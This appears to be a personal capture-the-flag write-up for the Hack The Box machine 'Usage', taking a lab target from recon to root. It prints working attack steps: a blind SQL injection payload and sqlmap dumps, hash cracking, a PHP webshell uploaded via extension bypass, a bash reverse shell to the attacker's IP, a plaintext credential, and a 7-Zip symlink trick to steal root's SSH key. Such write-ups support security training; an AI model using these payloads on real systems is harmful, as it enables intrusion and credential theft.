 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Exploits Used**:
  - Blind [SQL Injection](SQL Injection) in password reset  
  - PHP webshell upload via extension bypass in Laravel‑Admin over [HTTP](HTTP.md)  
  - 7‑Zip wildcard symlink exploit for file read  

**Open Ports:**
- [SSH](SSH) 22/tcp  
- [HTTP](HTTP.md) 80/tcp  

**Tools:**
- [nmap](nmap)  
- [ffuf](ffuf)  
- [sqlmap](sqlmap)  
- [hashcat](hashcat)  
- [Burp](Burp)  
- [sshpass](sshpass)  
- [nc](nc)  
- [7z](7z)  

---

## Recon 🔍

#### Find live ports
```bash
nmap -p- --min-rate 10000 10.10.11.18
```

#### Service/version detection
```bash
nmap -p 22,80 -sCV 10.10.11.18
```

#### Virtual‑host discovery
```bash
ffuf -u http://10.10.11.18 -H "Host: FUZZ.usage.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac
````

---

## Shell as dash 🐚

1. **Confirm blind [SQL Injection](SQL Injection)**

```bash
curl -X POST 'http://usage.htb/forgot-password' -H "Content-Type: application/x-www-form-urlencoded" -d "email=' or 1=1-- -" --trace-ascii reset.request
```

```bash
curl -X POST 'http://usage.htb/forgot-password' -d "email=' or 1=1-- -" > reset.request
    ```
    
2. **Dump database with sqlmap**
    
```bash
sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch --dbs
    ```
    
```bash
    sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch -D usage_blog --tables    
```

```bash
sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch -D usage_blog -T admin_users --dump
```
    
3. **Crack the admin hash**
    
```bash
echo "$HASH" > admin.hash
```
    
```
hashcat -m 3200 admin.hash rockyou.txt
```

```php
<?php system($_REQUEST['cmd']); ?>
```


4. **Bypass file‑extension in Laravel‑Admin**
    
    - Upload `0xdf.php.jpg`, intercept in **Burp**, rename to `.php`
        
    - Access shell:
        
```
http://admin.usage.htb/uploads/images/0xdf.php?cmd=id
```
        
5. **Get reverse shell**
    
    ```bash
    nc -lnvp 443
    curl 'http://admin.usage.htb/uploads/images/0xdf.php?cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
    ```
    

---

## Shell as xander 👤

1. **Grab Monit creds** from dash’s home:
    
```bash
grep -R "allow admin" /home/dash/.monitrc
# → 3nc0d3d_pa$$w0rd
```
    
2. **Switch user**:
    
    ```bash
    su - xander
    ```
    
    or via [SSH](https://chatgpt.com/c/SSH):
    
    ```bash
    sshpass -p '3nc0d3d_pa$$w0rd' ssh xander@usage.htb
    ```
    

---

## Shell as root 👑

1. **Abuse NOPASSWD sudo on `usage_management`**
    
    ```bash
    cd /var/www/html
    touch @file; ln -fs /root/.ssh/id_rsa file
    sudo /usr/bin/usage_management
    ```
    
2. **Extract private key** from 7‑Zip warnings, clean it, then:
    
    ```bash
    chmod 600 usage-root
    ssh -i usage-root root@usage.htb
    ```
    

---

## Actions Learned 🎓

- Mastered blind [SQL Injection](SQL Injection) with **sqlmap**
- Bypassed extension checks in **Laravel‑Admin** for RCE
- Extracted service creds from **monit** config
- Leveraged wildcard expansion in **7z** via NOPASSWD sudo to leak files
- Chained full path: Recon → User (dash) → Admin (xander) → Root
    

---

## References 🔗

- CVE-2023-24249 – Laravel‑Admin file upload extension bypass
- HackTricks: 7‑Zip wildcard symlink attack
- [Laravel‑Admin GitHub](https://github.com/laravel-admin-extensions/laravel-admin)

https://www.youtube.com/watch?v=cx9Da-PoXG4

https://0xdf.gitlab.io/2024/08/10/htb-usage.html